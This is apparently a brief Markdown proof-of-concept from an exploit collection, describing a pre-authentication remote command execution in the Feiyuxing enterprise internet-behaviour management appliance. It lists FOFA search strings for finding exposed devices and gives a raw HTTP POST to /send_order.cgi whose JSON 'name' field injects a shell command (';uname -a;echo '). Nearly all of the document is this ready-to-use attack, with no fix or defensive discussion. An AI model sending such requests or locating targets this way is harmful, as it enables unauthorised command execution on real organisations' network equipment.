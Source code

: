 ## 飞鱼星上网行为管理系统企业版前台RCE

## fofa

```
title="飞鱼星企业"
title="飞鱼星企业级智能上网行为管理系统"
```

## poc

```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```

![d3caa0beea2be24633c0996d8ae8819c](https://github.com/wy876/POC/assets/139549762/1be7ce47-2ee2-476c-af85-c258c27dc95f)
